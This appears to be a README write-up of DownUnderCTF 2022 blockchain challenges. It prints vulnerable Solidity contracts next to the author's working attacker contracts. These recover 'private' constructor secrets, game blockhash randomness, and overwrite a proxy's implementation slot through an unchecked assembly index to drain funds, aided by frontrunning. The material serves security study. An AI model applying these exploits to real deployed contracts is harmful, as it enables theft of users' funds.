




# DownUnderCTF 2022 - Yak Things

## Table of Contents
 * [Solve Me](#solve-me)
 * [Secret and Ephemeral](#secret-and-ephemeral)
 * [Crypto Casino](#crypto-casino)
 * [Private Log](#private-log)
 * [EVM Vault Mechanism](#evm-vault-mechanism)

## Solve Me



```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

/**
 * @title SolveMe
 * @author BlueAlder duc.tf
 */
contract SolveMe {
    bool public isSolved = false;

    function solveChallenge() external {
        isSolved = true;
    }
   
}
```

This challenge made sure that players were familiar with the platform and could connect to their private network instances.
See [hardhat.config.js](hardhat.config.js) for a sample config and [SolveMeAttacker](contracts/SolveMeAttacker.sol) / [solveme.js](scripts/solveme.js) for the solution.

## Secret and Ephemeral



```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

/**
 * @title Secret And Ephemeral
 * @author Blue Alder (https://duc.tf)
 **/

contract SecretAndEphemeral {
    address private owner;
    int256 public seconds_in_a_year = 60 * 60 * 24 * 365;
    string word_describing_ductf = "epic";
    string private not_yours;
    mapping(address => uint) public cool_wallet_addresses;

    bytes32 public spooky_hash; //

    constructor(string memory _not_yours, uint256 _secret_number) {
        not_yours = _not_yours;
        spooky_hash = keccak256(abi.encodePacked(not_yours, _secret_number, msg.sender));
    }

    function giveTheFunds() payable public {
        require(msg.value > 0.1 ether);
        // Thankyou for your donation
        cool_wallet_addresses[msg.sender] += msg.value;
    }

    function retrieveTheFunds(string memory secret, uint256 secret_number, address _owner_address) public {
        bytes32 userHash = keccak256(abi.encodePacked(secret, secret_number, _owner_address));

        require(userHash == spooky_hash, "Somethings wrong :(");

        // User authenticated, sending funds
        uint256 balance = address(this).balance;
        payable(msg.sender).transfer(balance);
    }
}
```

To solve this challenge, we need to successfully retrieve the funds of the contract. Here's my solve script:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import './SecretAndEphemeral.sol';

contract SecretAndEphemeralAttacker {
    SecretAndEphemeral private immutable sae;
    string private secret;
    uint256 private immutable secret_number;
    address[] private addresses;

    constructor(address _sae, string memory _secret, uint256 _secret_number, address[] memory _addresses) {
        sae = SecretAndEphemeral(_sae);
        secret = _secret;
        secret_number = _secret_number;
        addresses = _addresses;

        require(keccak256(abi.encodePacked(_secret, _secret_number, _addresses[0])) == SecretAndEphemeral(_sae).spooky_hash(), ":(");
    }

    function exploit() external {
        for(uint256 i = 0; i < addresses.length; ++i) {
            address addr = addresses[i];
            sae.retrieveTheFunds(secret, secret_number, addr);
        }
        payable(msg.sender).transfer(address(this).balance);
    }
   
   fallback() external payable {}
}
```

As you might've noticed, we require a secret string and a secret number to retrieve the funds. The [official solution](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/blockchain/secret-and-ephemeral/solve/solve.js) read the private variables by accessing storage slots, but I chose to find the contract deployment tx and get the arguments from there.
First, here's how to get the 3 transactions that happen on the blockchain during setup:

```js
  console.log(await ethers.provider.getBlockWithTransactions(3)); // send money to player tx
  console.log(await ethers.provider.getBlockWithTransactions(4)); // deploy tx
  console.log(await ethers.provider.getBlockWithTransactions(5)); // deposit tx
```

The constructor arguments are located at the very end of the deployment bytecode (the data section of the deployment tx). It's easier to see them if you slice the data into 32-byte blobs:

```js
0000000000000000000000000dec0ded
00000000000000000000000000000000
00000000000000000000000000000022
736f20616e79776179732069206a7573
74207374617274656420626c61737469
6e670000000000000000000000000000
00000000000000000000000000000000
```

The secret number is 0xdec0ded and the string has a length of 22 (`so anyways i just started blasting`). Also see [secretandephemeral.js](scripts/secretandephemeral.js).

## Crypto Casino



```solidity
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract DUCoin is ERC20, Ownable {
    constructor() ERC20("DUCoin", "DUC") {}

    function freeMoney(address addr) external onlyOwner {
        _mint(addr, 1337);
    }
}
```

```solidity
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.0;

import "./DUCoin.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract Casino is Ownable {
    DUCoin public immutable ducoin;

    bool trialed = false;
    uint256 lastPlayed = 0;
    mapping(address => uint256) public balances;

    constructor(address token) {
        ducoin = DUCoin(token);
    }

    function deposit(uint256 amount) external {
        ducoin.transferFrom(msg.sender, address(this), amount);
        balances[msg.sender] += amount;
    }

    function withdraw(uint256 amount) external {
        require(balances[msg.sender] >= amount, "Insufficient balance!");
        ducoin.transfer(msg.sender, amount);
        balances[msg.sender] -= amount;
    }

    function _randomNumber() internal view returns(uint8) {
        uint256 ab = uint256(blockhash(block.number - 1));
        uint256 a = ab & 0xffffffff;
        uint256 b = (ab >> 32) & 0xffffffff;
        uint256 x = uint256(blockhash(block.number));
        return uint8((a * x + b) % 6);
    }

    function play(uint256 bet) external {
        require(balances[msg.sender] >= bet, "Insufficient balance!");
        require(block.number > lastPlayed, "Too fast!");
        lastPlayed = block.number;

        uint8 roll = _randomNumber();
        if(roll == 0) {
            balances[msg.sender] += bet;
        } else {
            balances[msg.sender] -= bet;
        }
    }

    function getTrialCoins() external {
        if(!trialed) {
            trialed = true;
            ducoin.transfer(msg.sender, 7);
        }
    }
}
```

This casino relied on `_randomNumber()` as its source of randomness. The function makes use of some block hashes to output a random number, so any contract within the current block can determine if it's going to win or not. Here's my solution:

```solidity
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.0;

import "./DUCoin.sol";
import "./Casino.sol";

contract Gambler {
    DUCoin private immutable ducoin;
    Casino private immutable casino;

    constructor(address _ducoin, address _casino) {
        ducoin = DUCoin(_ducoin);
        casino = Casino(_casino);
        casino.getTrialCoins();
        ducoin.approve(address(casino), 7);
        casino.deposit(7);
    }

    function _randomNumber() internal view returns(uint8) {
        uint256 ab = uint256(blockhash(block.number - 1));
        uint256 a = ab & 0xffffffff;
        uint256 b = (ab >> 32) & 0xffffffff;
        uint256 x = uint256(blockhash(block.number));
        return uint8((a * x + b) % 6);
    }

    function gamble() public {
        uint256 tokenBalance = casino.balances(address(this));

        if(_randomNumber() == 0) {
            casino.play(tokenBalance);
        }
    }

    function solve() public {
        casino.withdraw(1337);
        ducoin.transfer(msg.sender, 1337);
    }
}
```

The `gamble()` function needs to be called multiple times, since we start with 7 tokens and need to get 1337. Also take a look at [casino.js](scripts/casino.js).

## Private Log



```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

/**
 * @title Private Log
 * @author Blue Alder (https://duc.tf)
 **/

import "@openzeppelin/contracts/proxy/utils/Initializable.sol";


contract PrivateLog is Initializable {

    bytes32 public secretHash;
    string[] public logEntries;

    constructor() {
        secretHash = 0xDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEAD;
    }

    function init(bytes32 _secretHash) payable public initializer {
        require(secretHash != 0xDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEADDEAD);
        secretHash = _secretHash;
    }

    modifier hasSecret(string memory password, bytes32 newHash) {
        require(keccak256(abi.encodePacked(password)) == secretHash, "Incorrect Hash");
        secretHash = newHash;
        _;
    }

    function viewLog(uint256 logIndex) view public returns (string memory) {
        return logEntries[logIndex];
    } 

    function createLogEntry(string memory logEntry, string memory password, bytes32 newHash) public hasSecret(password, newHash) {
        require(bytes(logEntry).length <= 31, "log too long");   
        
        assembly {
            mstore(0x00, logEntries.slot)
            let length := sload(logEntries.slot)
            let logLength := mload(logEntry)
            sstore(add(keccak256(0x00, 0x20), length), or(mload(add(logEntry, 0x20)), mul(logLength, 2)))
            sstore(logEntries.slot, add(length, 1))
        }
    }

    function updateLogEntry(uint256 logIndex, string memory logEntry, string memory password, bytes32 newHash) public hasSecret(password, newHash) {
        require(bytes(logEntry).length <= 31, "log too long");   
        
        assembly {
            let length := mload(logEntry)
            mstore(0x00, logEntries.slot)
            sstore(add(keccak256(0x00, 0x20), logIndex), or(mload(add(logEntry, 0x20)), mul(length, 2)))
        }

    }
}
```

Ironically, this challenge has 1 less solve than `EVM Vault Mechanism`, which was considerably harder. I guess people really hate proxies :)

The first vulnerability resides in the `updateLogEntry` function: `logIndex` is not checked. The function can therefore write (almost) arbitrary data at any storage slot, since the storage slot address is calculated by adding `logIndex` to `;sha3(logEntries.slot)`. Note that this is Solidity assembly, so overflows do not cause any error.

Note: `createLogEntry` also has the same vulnerability - I guess you could also exploit it.

The first question is how this can be exploited. Well, TransparentUpgradableProxies use the same 'storage' as the contract they point to. There are some well-defined slots where they store data such as the proxy admin. For this challenge, I wrote to the implementation slot, which tells the proxy which contract to delegate its calls to.

The second question is how to overcome a less-obvious limitation. If you look again at the `updateLogEntry` function, you'll see that logEntry has a max length of 31. A slot is 32 bytes long. I solved this by deploying the contract that drains the proxy to an address that ends with 0x3e (the value that will be at slot & 0xFF if our string is 31 bytes long). If you don't know how that is possible, take a look at [create2](https://solidity-by-example.org/app/create2/).


Here's my solution:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Lootoor {
    function drain() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./PrivateLog.sol";
import "./Lootoor.sol";
// import "hardhat/console.sol";

contract PrivateLogAttacker {
    function getSamplePasswordHash(string memory _password) public pure returns (bytes32) {
        return keccak256(abi.encodePacked(_password));
    }

    function getSampleInitializerData() external view returns (bytes memory) {
        return abi.encodeWithSignature("init(bytes32)", this.getSamplePasswordHash("yakuhito"));
    }

    // https://ethereum.stackexchange.com/questions/2519/how-to-convert-a-bytes32-to-string
    // modified to return bytes fo len 31
    function addressToStr(address _addr) public returns (string memory) {

    // string memory str = string(_bytes32);
    // TypeError: Explicit type conversion not allowed from "bytes32" to "string storage pointer"
    // thus we should fist convert bytes32 to bytes (to dynamically-sized byte array)

    bytes memory addrAsBytes = abi.encodePacked(_addr);

    bytes memory bytesArray = new bytes(31);
    for(uint256 i = 0; i < addrAsBytes.length - 1; ++i) {
        bytesArray[bytesArray.length - 1 - i] = addrAsBytes[addrAsBytes.length - i - 2]; // please don't judge me
    }
    return string(bytesArray);
    }

    function exploit(address _privateLog, string memory _password) external {
        // 1. compute log entry 'index'
        uint256 actualAt;
        PrivateLog privateLog = PrivateLog(_privateLog);
        assembly {
            mstore(0x00, 2) // always slot 2
            actualAt := sub(0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc, keccak256(0x00, 0x20)) // implementation slot for proxy is 0x36...
        }

        // 2. bruteforce value to write so it points to a Lootoor instance
        // https://solidity-by-example.org/app/create2/
        bytes memory bytecode = type(Lootoor).creationCode;
        uint256 salt = 1337;
        while(true) {
            bytes32 hash = keccak256(
                abi.encodePacked(bytes1(0xff), address(this), salt, keccak256(bytecode))
            );
            address expectedAddress = address(uint160(uint(hash)));
            bytes memory expectedAddressArr = abi.encodePacked(expectedAddress);

            if(expectedAddressArr[expectedAddressArr.length - 1] == 0x3e) {
                break;
            }
            salt += 1;
        }
        // console.log("salt: %s", salt);

        address lootoorAddress;
        assembly {
            lootoorAddress := create2(
                callvalue(), // wei sent with current call
                // Actual code starts after skipping the first 32 bytes
                add(bytecode, 0x20),
                mload(bytecode), // Load the size of code contained in the first 32 bytes
                salt // Salt from function arguments
            )

            if iszero(extcodesize(lootoorAddress)) {
                revert(0, 0)
            }
        }

        // console.log("lootoor deployed at: %s", lootoorAddress);
        string memory actualValue = this.addressToStr(lootoorAddress);

        privateLog.updateLogEntry(
            actualAt,
            actualValue,
            _password,
            this.getSamplePasswordHash(_password)
        );

        Lootoor(_privateLog).drain();
        payable(msg.sender).transfer(address(this).balance);
    }

    fallback() external payable {}
}
```

If you've read the code above, you might ask yourself where I got the password from. That's the last part of the challenge: frontrunning the admin. A new entry is written every x seconds and the same password can be uset to create and to update entries. See [privatelog.js](scripts/privatelog.js) for the solution and [privatelog_test.js](scripts/privatelog_test.js) to see how I tested my solution without the frontrunning part (just deployed PrivateLog myself).

## EVM Vault Mechanism

Blog post about this challenge can be found [here](https://blog.kuhi.to/downunderctf-2022-evm-vault-mechanism).